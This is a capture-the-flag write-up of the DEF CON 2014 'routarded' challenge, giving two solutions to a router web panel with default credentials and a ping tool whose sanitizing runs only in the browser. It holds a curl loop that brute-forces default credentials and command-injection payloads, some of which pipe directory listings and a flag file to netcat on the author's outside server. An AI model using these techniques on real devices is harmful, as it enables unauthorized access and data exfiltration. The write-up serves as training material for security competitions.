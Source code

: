 # DEF CON CTF Qualifier 2014: routarded

**Category:** Baby’s First
**Points:** 1
**Description:**

> Wow, they forwarded http on a router with default creds?
>
> http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/

## Write-up

The hint mentioned default credentials, so we tried some default credentials. After some trying, we found out leaving the username field empty and entering `admin` for the password successfully logged us in.

In the router’s web interface, there was a page to ping IP addresses and domain names (amongst other things). When we attempted to add another command to that, the command was sanitized. For example, entering `8.8.8.8; ls` got sanitized into `8.8.8.8`. However, we saw the sanitizing happening in the browser. Seems like a case of JavaScript-only protection!

We disabled JavaScript in our browser and tried entering `; ls`. This effectively bypassed the filter (i.e. they didn’t do any sanitizing on the back-end), and we got the directory listing this time:

```
bower_components
flag
requirements.txt
routarded.py
static
templates
```

The `flag` file seemed like the right thing. Let’s enter `; cat flag`:

```
The flag is: l0l, can't believe they still do this shit
```

## Write-up 2 (by @d1rt_diggler)

**Note: this is from memory, so some details might be slightly off.**

### Casing the joint

Connecting to the server via browser greated you with a standard HTTP auth prompt. There was no splash page, and I don’t recall anything fancy in the headers, so no hints there…

###Defaults, okay, but WHICH defaults?
I started with your basics by hand (you never know!) admin:admin, admin:password, admin:blank, administrator:administrator, etc.
all without success, I didn't have a password list for router defaults on hand but about 2 minutes of Goog-fu turned some up.  I found http://defaultpassword.com and liked the format and variety, so I just did a full copy and paste of the home page (which lists all the passwords by default, awesome!) and dropped it into a text file.

The defaults were kind of weird though and since it seems to be crowd sourced the standarization for (blank), (none), n/a, etc. was... well, not standard.  I ended up passing the list through a couple grep and awk 1 liners to get only HTTP auth versions and to clean it up the non-standard types for "blank".
```
$ cat passwords.txt | awk '{print $6" "$7}' > first_pass.txt
$ cat first_pass.txt | awk {gsub('\\(none\\)','',$1); gsub('\\(none\\)','',$2);print $1" "$2}' > second_pass.txt
$ cat second_pass.txt | awk {gsub('n\\a','',$1); gsub('n\\a','',$2);print $1" "$2}' > third_pass.txt
$ cat third_pass.txt | awk {gsub('\\(blank\\)','',$1); gsub('\\(blank\\)','',$2);print $1" "$2}' > last_pass.txt
```
Those turned this...
```
3com    cellplex        7000    Telnet  admin   admin   Admin   No
3COM    CellPlex        7000    Telnet  tech    tech    Admin   No
3COM    CellPlex                HTTP    admin   synnet  Admin   No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  debug   synnet          No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  tech    tech            No
3COM    HiPerARC        v4.1.x  Telnet  adm     (none)  Admin   No
```
Into this... (roughly... it wasn't perfect, but I was aiming for "good enough")
```
admin admin
tech tech
admin synnet
debug synnet
tech tech
adm
```
Now we had a condensed list, but there were some dupes, no use in retrying pairs.
```
$ cat last_pass.txt | sort | uniq > uniq_pass.txt
```
This would turn
```
admin admin
admin admin
admin password
admin admin
admin administrator
admin admin
admin administrator
admin password
```
Into
```
admin admin
admin administrator
admin password
```
Which would reduce the amount of time it needed to test since we wouldn't be pointlessly testing the same creds over and over.

Now I wanted to format these into the HTTP user:pass format for curl
```
$ cat uniq_pass.txt | awk '{print $1":"$2}' > http_auths.txt
```
Which turned the list generated earlier into
```
admin:admin
tech:tech
admin:synnet
debug:synnet
tech:tech
adm:
```
###We've got our creds, now we need to test em'
Open up good ole vim and pumped out a shell script that would loop over the creds file and attempt
a curl to the router using a set of credentials... if it failed, it would be a 1 line error, if it
worked I'd see a flood of HTML content.

```bash
#!/usr/bin/env bash
users=$(cat http_auths.txt);
for user in $users; do
  echo $user;
  echo "";
  curl -u "$user" "http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/";
  echo "-----"
done;
```

Run it and scan the results for a successful auth.

```bash
$ ./test_auths | less
```

### `[BLANK]:admin`

Of course, the one default I didn’t think to try by hand… OF COURSE!

### Now we're in, let's look around
There really wasn't much to see, under the "tools" or "settings" tab (I can't remember which) there were
two tools that caught my eye, one was a traceroute, the other ping.  Running either returned nothing. I
actually thought something was misconfigured (like legitmately, not in the "break this piece" sense) and
looked around for a few more minutes before deciding to see if I could abuse the ping tool. I was going
in blind though since I couldn't tell if these tools were even getting to a system behind the scenes...
how could I do a simple blind test to see...

```
ping [ google.com ]
(page hangs for roughly 3 seconds, loads)
ping [ 127.asdf.asdf.174188 ]
(page loads immediately)
```

Hmmm okay, so it does seem like it's actually running a ping in the background, maybe it's injectable? I can't
really tell from the busted ass web UI tho... maybe I can get it to phone home.  I jump on my public facing VPS
and type in:

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
```

Time to find out...

```
ping [ 127.0.0.1; nc myvps.domains.lol 4545; ]
```

YEAH BUDDY!

```
Connection from 133.7.101.256:49245
```

### Scope the joint

Well we confirmed we had an injectable script, and we confirmed we could phone home, now we just need to
get our hands on that flag... but where the hell is it and where the hell am I?!

```
ping [ 127.0.0.1; ls -lahR /home/ | nc myvps.domains.lol 4545; ]
```

On my listening machine...

```
..snip..
/home/routarded/ (or / I don't remember...)
-rw-r--r--  1 routarded routarded  21   May 14 19:56 flag
..snip..
```

### Gettin’ the goods

Well, we've found it, so we’re pretty much done, all I need to do now is read the file and we’re golden.
```
ping [ 127.0.0.1; cat /home/routarded/flag | nc myvps.domains.lol 4545; ]
```

And on my listening machine...

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
Connection from 133.7.101.256:49245
The flag is: l0l, can't believe they still do this shit
```

## Other write-ups

* (none yet)
